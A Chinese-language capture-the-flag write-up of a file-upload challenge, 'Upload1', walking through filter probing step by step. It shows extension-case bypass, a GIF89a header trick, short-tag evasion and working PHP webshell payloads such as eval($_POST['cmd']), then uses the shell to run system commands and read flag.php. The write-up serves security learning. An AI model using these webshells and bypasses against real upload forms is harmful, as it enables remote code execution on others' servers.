








### Upload1

#### 思路与步骤

1. 文件上传漏洞：先正常传入png文件（熟悉正常流程），再用测试文件分别判断前端和后端的检测力度。

    

2. 传入名为zc.png的正常图片文件，浏览器显示“上传成功”并给出了访问路径。

    

3. 开始测试前端的检测力度，打开bp，传入名为a.php的空文件。发现发送了新的请求，证明前端没有对传入文件的后缀名进行检测（实则前端对传入文件没有进行任何检测）。但显示“非法后缀，禁止上传脚本文件”，说明后端对于传入文件进行了后缀名检测。

    

4. 尝试后缀名大写绕过，传入名为a.Php的空文件，显示“仅允许上传图片文件”，说明后端对文件后缀名的检测是黑名单，并且现在已经绕过了后端对于文件后缀名的检测，但后端可能对文件的MIME类型或内容有检测。

    

5. 将Content-Type改为image/png，上传后显示“仅允许上传图片文件”。（实际后端对于MIME类型没有检测）

6. 在请求体中，添加GIF89a魔术头，上传后显示“仅允许上传图片文件”。

    ```php
    GIF89a
    ```

7. 尝试增添文件内容，但是上传后依旧显示“仅允许上传图片文件”。

    ```php
    GIF89a
    1
    ```

8. 有可能后端对于传入文件的内容长度也有检测，因此增添文件内容。上传后显示“上传成功”并给出访问路径。

    ```php
    GIF89a
    1111
    ```

9. 先不写入真正的攻击payload，一点一点测试漏洞点。传入下面代码，显示“文件内容不合法”，说明后端对于文件内容里的某些字符进行了限制。

    ```php
    GIF89a
    <?php phpinfo(); ?>
    ```

10. 依旧尝试大写绕过，传入下面代码，显示“上传成功”并给出访问路径。访问传入的文件，浏览器真的显示了配置页面，说明服务器解析并执行了传入的PHP代码。

    ```PHP
    GIF89a
    <?Php echo phpinfo(); ?>
    ```

11. 传入下面代码，但显示“仅允许上传图片文件”，说明对字段有检测。

    ```php
    GIF89a
    <?Php @eval($_POST['cmd']);?>
    ```

12. 通过测试发现，只要开头不是<?php（不管大小写都是），都可以上传成功。实际上，后端检测字段分为两种情况：第一种情况：后端识别为PHP代码的起始标记（比如出现<?php（不管大小写都是）时），会触发后续的危险内容扫描（比如post、@、引号等）；第二种情况：后端没有识别为PHP代码的起始标记（比如写入<?=时），不会触发后续的危险内容扫描。

13. 因此传入下面代码，显示“上传成功”并给出访问路径。访问和查看源码都显示“GIF89a”，说明代码被解析了，但不一定被执行。

    ```php
    GIF89a
    <?= @eval($_POST['cmd']);?>
    //扩展<?=eval($_REQUEST[1]);?> 比较通用，该题检测较弱，用不到
    ```

    

14. 在返回的访问路径下写入参数，用hackbar写入参数，尝试利用下面代码查看当前文件夹，结果显示当前文件夹的内容，说明代码被执行了。

    ```php
    cmd=system('dir');
    ```

    

15. 本目录下没有flag.php，因此需要向上查找，使用下面代码，发现仅显示GIF89a，说明有字符被限制。

    ```php
    cmd=system('dir ../');
    ```

16. 因为我的是windows系统，可以尝试下面代码。

    ```php
    cmd=system('dir ..');
    ```

    

17. 由于windows系统没有cat命令，可以使用下面代码，最终获得flag。

    ```php
    cmd=highlight_file('../flag.php');
    ```

    

#### 知识点：

1. 判断前端和后端检测的核心在于有没有发出新的请求。
2. 前端检测是浏览器自身对传入文件的检测。
3. .htaccess是Apache的目录配置文件，可以更改服务器的解析规则；.user.ini是PHP的目录配置文件。如果在这两个文件后面增添后缀，会导致该文件失效。
4. <?= $a ?>等价 <?php echo $a; ?>。
5. 标签、函数 / 关键字改大小写依然完全可用，PHP 会正常解析执行；但超全局变量（$_POST、$_GET、$_REQUEST、$_SERVER）、数组键名改大小写会直接失效。
6. 利用PHP代码需要三步：上传 -> 解析 -> 执行。
7. 有时flag不在页面显示，但是在源码中显示。情况一：HTML 语法层面：内容写在 HTML 的“非正文区域”，浏览器默认不显示；情况二：CSS 样式层面：内容存在，只是视觉不可见，元素和内容都在页面里，但是通过样式设置成了“肉眼看不见”的状态，DOM 结构和源码都完整保留；情况三：Content-Type 导致渲染异常，你上传的是 `.jpg` / `.gif` 后缀的图片马，服务器返回这个文件时，响应头里的 Content-Type 是 image/gif 或 image/jpeg。浏览器收到响应后，会按照图片格式去解析渲染，而不是按普通文本 / HTML 解析。右键 → 查看网页源代码：能完整看到 GIF89a + flag内容。

#### 关键：根据回显判断解析/执行

**一、完全没被PHP解析（静态文件返回）**

1. 直接访问：页面显示GIF89a，后面跟着一串代码（浏览器可能渲染成乱码 / 裂图）；源码完整保留两行内容：GIF89a + <?=eval($_REQUEST[1]);?>，和上传的内容完全一致。
2. 带参数访问（?1=echo 666;）：页面显示和不带参数完全一样，不会多出 666；源码显示的和不带参数完全一样，参数完全不生效。

**二、被PHP解析，但没执行**

1. 直接访问：页面显示GIF89a；源码只有GIF89a。
2. 带参数访问（?1=echo 666;）：和直接访问一样，原理是服务器限制了代码执行能力，最典型的就是 php.ini 里用 disable_functions 禁用了eval等。

**三、被执行**

1. 直接访问：页面显示GIF89a；源码只有GIF89a。
2. 带参数访问（?1=echo 666;）：页面视觉显示GIF89a666；页面源码GIF89a666。
